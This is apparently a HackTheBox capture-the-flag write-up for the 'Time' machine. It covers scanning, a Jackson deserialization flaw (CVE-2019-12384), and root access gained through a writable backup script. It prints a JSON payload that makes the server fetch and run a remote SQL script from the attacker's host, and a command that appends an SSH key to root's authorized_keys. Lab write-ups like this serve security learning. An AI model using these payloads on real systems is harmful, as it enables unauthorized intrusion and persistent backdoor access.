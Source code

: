 <script src="https://www.hackthebox.eu/badge/36120"></script>

<h2>Time - HackTheBox - WriteUp</h2>


<h1>Steps</h1>

<hr>1° step: Nmap scan
<hr>2° step: Dirsearch (nothing interesting found)
<hr>3° step: Enumeration
<hr>3° step: Test a vector in the web application
<hr>4° step: Getting a shell
<hr>5° step: Privilege escalation


<h1>Nmap</h1>
![image](https://i.imgur.com/nNgEXkK.png "Nmap Scan")<br>
We found two ports: 22 and 80.


While I was enumerating the webserver, I left running dirsearch.
![image](https://imgur.com/iFMN0Fv.png "Dirsearch")<br>
Nothing interesting found.


In the webserver, there's a "JSON Beautifier and Validator"<br>
Testing "Beautify" option, nothing curious was found.
![image](https://imgur.com/oXxi1e0.png "Webserver")<br>

But, if we change to "Validate(Beta!)" option, we see something interesting.
![image](https://imgur.com/Ya1EBHq.png "Validate vector")<br>
An error, that's awesome! Beta features are always interesting, let's take a look for it.

That's the complete error:
![image](https://imgur.com/nGsqPqX.png "Complete error")<br>
I marked an interesting factor, let's research it.


After some research, I found and read some articles talking about "Jackson Deserialization" and a "RCE" in this library.<br>
I tried to send '{"FDivision"}' and the error changed:
![image](https://imgur.com/TMCdfOe.png "New error")<br>

Searching on google and reading a little, I checked a solution for this error.<br>
We need to use "[]" instead of "{}"<br>
Following this thought, I got this response:<br>
![image](https://imgur.com/yJ0VYq1.png "Could not resolve type id 'FDivision', no class found")<br>

Searching for it, I found an exploit. [Github exploit](https://github.com/jas502n/CVE-2019-12384)<br>

<h1>Let's start exploiting.</h1><br>

First, we need to create a "inject.sql", as was said [here](https://github.com/jas502n/CVE-2019-12384)<br>

Then, start your listeners.<br>
![image](https://imgur.com/sPCiXxN.png "NC listener")<br>
![image](https://imgur.com/amInJkc.png "Python listener")<br>

Now we can send the payload:
"["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.197/inject.sql'"}]"<br>

And we got the user!
![image](https://imgur.com/sramzmY.png "user flag")<br>

<h1>Privilege Escalation</h1><br>

If we run any enumeration script, You'll see a script called "timer_backup.sh"<br>
I won't print the exit of this tools, because it's too big.<br>

Here we can see the permissions of this script.<br>
![image](https://imgur.com/5TO81Ht.png "Script perms")<br>
We can write into the file!<br>
Lets try to put our ssh key.<br>

' echo "echo KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh '<br>
(You need to change "KEY" to your ssh public key)<br>
![image](https://imgur.com/YIhS0bZ.png "command")<br>

Then we can login as root in SSH:<br>
![image](https://imgur.com/X0x4wke "rooted")<br>

<h1>Just to curious: It has a second way to root.</h1>

![image](https://imgur.com/SVYgD87.png "Second way to root")
